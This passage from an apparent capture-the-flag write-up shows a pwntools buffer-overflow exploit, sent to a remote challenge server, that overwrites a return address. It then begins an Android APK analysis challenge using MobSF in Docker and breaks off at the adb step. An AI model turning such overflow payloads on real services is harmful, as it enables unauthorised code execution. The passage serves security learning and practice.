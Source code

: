 ```python
from pwn import *

elf = ELF("chall2")

#p = elf.process()
p = remote("209.38.121.6",5007)

payload = b'a'*88+p64(0x000000000040119b)
print(p.recvuntil(b"Enter your input: "))

p.sendline(payload)
p.interactive()
```

## Love - Android APK Analysis

### Do you love flames

![Love Challenge](images/love.png)

We are given an APK file. Generally APK files are mostly compiled in Java which makes them easy to reverse, I'll be using the [MobSF framework](https://github.com/MobSF/Mobile-Security-Framework-MobSF) to analyze the APK. We can run it in a Docker container. I'll also be using Genymotion to run an Android emulator.

```bash
sudo docker run -it --rm -p 8000:8000 -p 1337:1337  \
-e MOBSF_ANALYZER_IDENTIFIER=127.0.0.1:6555 \
opensecurity/mobile-security-framework-mobsf:latest
```

The `-e` sets the environment so that MobSF can connect to our Android device for dynamic analysis.

To load the APK in our emulator we can use adb:
